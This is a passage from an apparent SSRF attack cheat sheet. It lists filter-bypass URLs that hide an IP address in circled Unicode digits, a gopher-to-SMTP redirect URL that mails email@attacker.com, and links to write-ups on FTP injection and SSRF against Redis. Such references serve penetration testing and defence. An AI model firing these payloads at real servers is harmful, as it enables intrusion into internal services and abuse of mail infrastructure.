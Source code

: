 `http://⓪ⓧⓐ⑨。⓪③⑦⑥。④③⑤①⑧:80/`

`http://⓪ⓧⓐ⑨｡⑯⑥⑧⑨⑥⑥②:80/`

`http://⓪⓪②⑤①。⑯⑥⑧⑨⑥⑥②:80/`

`http://⓪⓪②⑤①｡⓪ⓧⓕⓔ｡④③⑤①⑧:80/`

***

### commonly-open-ports.txt - list of commonly open ports

***

### SSRF2SMTP

https://ssrf.localdomain.pw/ssrf2smtp/?proto=gopher&ip=0&port=25&domain=domain.com&to=email@attacker.com&code=301

***

### Schemes-List.xlsx - 800 of known schemas + useful references

https://github.com/irsdl/OutlookLeakTest/blob/master/Schemes-List.xlsx?raw=true

***

### Java/Python FTP Injections Allow for Firewall Bypass

http://webcache.googleusercontent.com/search?q=cache:http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

https://github.com/ecbftw/poc/blob/master/java-python-ftp-injection/ftp-injection-server.py

http://webcache.googleusercontent.com/search?q=cache:https://shiftordie.de/blog/2017/02/18/smtp-over-xxe/

***

### SSRF + Gopher + Redis

http://webcache.googleusercontent.com/search?q=cache:http://vinc.top/2016/11/24/%E3%80%90ssrf%E3%80%91ssrfgopher%E6%90%9E%E5%AE%9A%E5%86%85%E7%BD%91%E6%9C%AA%E6%8E%88%E6%9D%83redis/

https://webcache.googleusercontent.com/search?q=cache:http://antirez.com/news/96

***

### Top 5 features that are often prone to SSRF vulnerabilities:

https://webcache.googleusercontent.com/search?q=cache:https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

***
